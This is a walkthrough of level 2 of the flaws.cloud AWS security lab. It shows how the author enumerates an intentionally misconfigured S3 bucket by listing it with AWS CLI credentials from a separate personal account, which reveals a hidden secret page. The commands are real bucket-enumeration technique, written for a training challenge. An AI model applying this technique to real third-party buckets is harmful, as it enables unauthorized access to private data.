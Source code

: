 # Level - 2

**The next level is fairly similar, with a slight twist. You're going to need your own AWS account for this. You just need the [free tier](https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/).**

The clue here is to use our AWS account. 

Similar to the first challenge I will be running the host command on the url of Level-2

```bash
┌──(root㉿kali)-[/home/kali/Desktop/flaws.cloud]
└─# host level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud 
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.190.235
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.162.219
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.202.155
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.218.132.50
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.133.107
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.205.43
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.186.211
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.227.163
```

We again note that this is still a static website hosted on the S3 bucket and we can try the aws cli command we tried earlier to list the subdomains

```bash
┌──(root㉿kali)-[/home/kali/Desktop/flaws.cloud]
└─# aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud --no-sign-request

An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

This time we encountered a error stating Access denied.

We checked by removing the —no-sign-request flag and trying to list the buckets

```bash
┌──(root㉿kali)-[/home/kali/Desktop/flaws.cloud]
└─# aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud                  

Unable to locate credentials. You can configure credentials by running "aws configure".
```

We can see that the command is requesting for credentials. We can proceed to create a AWS free tier account for this level and configure the credentials. Create a IAM user with Permissions “[AmazonS3FullAccess](https://us-east-1.console.aws.amazon.com/iam/home?region=us-east-2#/policies/details/arn%3Aaws%3Aiam%3A%3Aaws%3Apolicy%2FAmazonS3FullAccess)”  and generate access keys. Set the Access key into the aws cli.

```bash
┌──(root㉿kali)-[/home/kali/Desktop/flaws.cloud]
└─# aws configure                                                     
AWS Access Key ID [****************7QG6]:     
AWS Secret Access Key [****************IgWd]: 
Default region name [None]: 
Default output format [None]:
```

We can see that we have configured our aws cli with the access key.

Next we can now use the same command and note that we found “secret-e4443fc.html”.

```bash
┌──(root㉿kali)-[/home/kali/Desktop/flaws.cloud]
└─# aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 21:02:15      80751 everyone.png
2017-03-02 22:47:17       1433 hint1.html
2017-02-26 21:04:39       1035 hint2.html
2017-02-26 21:02:14       2786 index.html
2017-02-26 21:02:14         26 robots.txt
2017-02-26 21:02:15       1051 secret-e4443fc.html
```

We can proceed to our newly found domain and proceed to level-3 using the url [http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html](http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html).

![Level 2 Flag](/images/level-2.png)

# References

[1] [https://docs.aws.amazon.com/IAM/latest/UserGuide/id_users_create.html](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_users_create.html)
[2] [https://docs.aws.amazon.com/cli/latest/userguide/welcome-examples.html](https://docs.aws.amazon.com/cli/latest/userguide/welcome-examples.html)
